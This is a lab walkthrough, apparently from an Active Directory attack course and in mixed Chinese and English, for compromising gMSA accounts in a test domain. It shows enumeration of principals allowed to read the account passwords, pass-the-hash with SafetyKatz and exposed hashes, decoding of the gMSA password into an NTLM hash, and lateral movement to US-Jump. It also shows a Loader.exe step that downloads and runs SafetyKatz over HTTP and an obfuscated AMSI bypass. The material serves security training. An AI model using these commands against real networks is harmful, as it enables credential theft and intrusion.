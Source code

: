 Task
•  Enumerate gMSAs in the us.techcorp.local domain.
•  Enumerate the principals that can read passwords from any gMSAs.
•  Compromise one such principal and retrieve the password from a gMSA.
•  Find if the gMSA has high privileges on any machine and extract credentials from that machine.

# Enumerate gMSAs in the us.techcorp.local domain.

使用 ADModule
```
PS C:\ad\Tools> Get-ADServiceAccount -Filter *


DistinguishedName : CN=jumpone,CN=Managed Service Accounts,DC=us,DC=techcorp,DC=local
Enabled           : True
Name              : jumpone
ObjectClass       : msDS-GroupManagedServiceAccount
ObjectGUID        : 1ac6c58e-e81d-48a8-bc42-c768d0180603
SamAccountName    : jumpone$
SID               : S-1-5-21-210670787-2521448726-163245708-8601
UserPrincipalName :

```

# Enumerate the principals that can read passwords from any gMSAs.

```
PS C:\ad\Tools> Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword

PrincipalsAllowedToRetrieveManagedPassword
------------------------------------------
{CN=provisioning svc,CN=Users,DC=us,DC=techcorp,DC=local}
```

# Compromise one such principal and retrieve the password from a gMSA.

根据在US-MAILMGMT收集到的provisioningsvc的哈希，pth一个shell
```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:provisioningsvc /domain:us.techcorp.local /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /run:cmd.exe" "exit"
```
# Find if the gMSA has high privileges on any machine and extract credentials from that machine.

在上面步骤出来的cmd下依次执行
```
C:\Windows\system32>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
PS C:\Windows\system32> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
PS C:\Windows\system32> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
PS C:\Windows\system32>
```

使用 DSInternals module，解码password并且转成ntlm

```
PS C:\Windows\system32> $Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
PS C:\Windows\system32> Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
PS C:\Windows\system32> $decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
PS C:\Windows\system32> ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
24ea295f3c05aefc8c29d07992cdcc4c
PS C:\Windows\system32>
```


使用上面得到的ntlm开启一个新的shell

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:24ea295f3c05aefc8c29d07992cdcc4c /run:powershell.exe" "exit"
```

在上面命令得到的新shell下，执行
```
PS C:\ad\Tools> . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
PS C:\ad\Tools> Find-PSRemotingLocalAdminAccess -Verbose
VERBOSE: Trying to run a command parallely on provided computers list using PSRemoting .
US-Jump
```

现在可以横向到US-Jump
```
PS C:\ad\Tools> winrs -r:us-jump cmd
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\jumpone$>whoami
whoami
us\jumpone$

C:\Users\jumpone$>hostname
hostname
US-Jump
```

在学生机传文件到us-jump
```
echo F | xcopy C:\AD\Tools\Loader.exe \\us-jump\C$\Users\Public\Loader.exe /Y
```

在学生机开启一个http服务

```
python -m SimpleHTTPServer 80
```


在jump执行,发现不能运行
```
C:\Users\jumpone$>C:\Users\Public\Loader.exe -path http://192.168.100.138/SafetyKatz.exe
C:\Users\Public\Loader.exe -path http://192.168.100.138/SafetyKatz.exe
The system cannot execute the specified program.
```

转成powershell，bypass amsi也报错
```
PS C:\Users\jumpone$> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
Cannot invoke method. Method invocation is supported only on core types in this language mode.
At line:1 char:96
+ ... ,'rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly" ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : MethodInvocationNotSupportedInConstrainedLanguage
```


因为是在 Constrained Language Mode下
```
PS C:\Users\jumpone$>  $ExecutionContext.SessionState.LanguageMode
 $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```

这可能是因为有Applocker，如果有Applocker，那可以去白名单里 执行

由于Applocker是在注册表中，如果下面命令报错，表明没有Applocker

```
PS C:\Users\jumpone$> reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
ERROR: The system was unable to find the specified registry key or value.
```
报error，没有Applocker

wmic也不可以用
```
PS C:\Users\jumpone$> wmic
wmic
Program 'WMIC.exe' failed to run: Your organization used Device Guard to block this app. Contact your support person
for more infoAt line:1 char:1
+ wmic
+ ~~~~.
At line:1 char:1
+ wmic
+ ~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```